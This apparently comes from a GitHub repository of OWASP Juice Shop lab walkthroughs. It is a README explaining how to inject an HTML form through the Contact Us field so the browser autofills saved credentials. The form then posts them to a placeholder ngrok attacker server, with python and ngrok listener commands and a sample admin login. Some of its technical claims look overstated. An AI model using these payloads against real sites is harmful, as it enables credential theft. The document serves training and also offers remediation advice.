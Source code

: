 📁 /Method-11_Browser-Autocomplete-Leak/README.md
markdown
Copy code
# 🧠 OWASP Juice Shop Challenge – Browser Autocomplete Leak Exploit

## 🎯 Objective
Leverage the browser’s built-in **form autocomplete mechanism** to extract previously entered sensitive data like credentials. This method focuses on abusing frontend behaviors and browser memory, not server-side vulnerabilities.

---

## 🛠️ TECHNICAL STRATEGY AND THREAT MODEL

Modern browsers store input field data using the `autocomplete` attribute. This attribute controls whether input fields can **auto-populate previously entered values**, such as usernames, emails, or passwords. If developers leave `autocomplete="on"` or omit it entirely (default: on), it can lead to **accidental data disclosure**, especially in shared environments or multi-user systems.

In the Juice Shop app, there are **login and registration pages** that fail to prevent the browser from storing credentials. We exploit this misconfiguration using DOM injection and UI abuse to make the browser auto-fill saved values in unintended input fields—leaking them to a JavaScript-controlled interface.

---

## 🧰 REQUIREMENTS

- Browser: Chrome, Firefox, or Edge (with autocomplete enabled).
- Developer Tools (F12) access.
- Kali Linux (optional) to host custom scripts (not required here).
- Understanding of HTML forms, DOM manipulation, and browser storage APIs.

---

## 🧪 STEP-BY-STEP EXPLOITATION

### 🔹 Step 1: Navigate to Login Page
- Open Juice Shop.
- Click on `Account > Login`.
- Allow your browser to offer the option to **save login credentials** (e.g., `admin@juice-sh.op / admin123`).

### 🧠 What's happening here?
> When the browser detects a `<form>` element with `<input type="email" name="email">` and `<input type="password" name="password">`, it prompts the user to save credentials. If `autocomplete="off"` is **not set**, the browser caches these inputs locally.

---

### 🔹 Step 2: Save the Credentials via Login
- Login once with admin credentials.
- Click “Save Password” when browser prompts.

> 📦 These credentials are now stored locally in browser-managed **autocomplete storage**.

---

### 🔹 Step 3: Trigger the Autocomplete Leak
Now, create a custom HTML form inside the application that tricks the browser into auto-filling credentials into **malicious or visible input fields**.

#### ➤ Where to inject?
- Go to `Contact Us > Message`.
- Enter the following **malicious payload** into the message field:

```html
<form>
  <input name="email" type="email">
  <input name="password" type="password">
</form>
✅ This form, when rendered, triggers browser’s autocomplete engine to autofill cached values.

🔧 Backend Mechanics:
The browser checks DOM elements with <input type="email" name="email"> or <input type="password">.

If names match previously stored fields and match same-origin policy, autofill occurs.

No JavaScript or user interaction is needed if fields are in focus and visible.

🔹 Step 4: Observe Auto-fill
Submit the message or simply reload the contact page.

Open DevTools > Elements Tab (F12), inspect the HTML.

You will see that the email and password fields are auto-populated.

🔹 Step 5: Enhance to Exfiltrate
Modify your payload to send data to an external server:

html
Copy code
<form action="https://your-ngrok-server.com" method="POST">
  <input name="email" type="email">
  <input name="password" type="password">
  <input type="submit">
</form>
Use an ngrok tunnel or a simple HTTP listener to catch requests:

bash
Copy code
sudo python3 -m http.server 80
# or
ngrok http 80
Once the form is auto-filled and user submits unknowingly, credentials are exfiltrated to your server.

💡 DEFENSE BYPASS STRATEGY
This exploit works because:

Autocomplete is enabled by default on most forms.

Browser autofill is triggered even by hidden or injected forms.

Many sites don’t use autocomplete="off" or readonly on sensitive inputs.

This highlights why frontend misconfigurations can cause client-side data leaks, even without backend flaws.

🔐 REMEDIATION GUIDELINES
To prevent autocomplete-based leaks:

Always set:

html
Copy code
<input type="password" autocomplete="off">
Avoid rendering forms dynamically without intention.

Use strict Content-Security-Policy to block inline HTML/script injection.

Consider readonly fields for uneditable sensitive content.

📋 Final Note
This challenge shows a low-complexity, high-impact client-side vulnerability that leverages user trust in browsers. It bypasses most traditional XSS filters and exploits legitimate features misused in malicious contexts.

yaml
Copy code
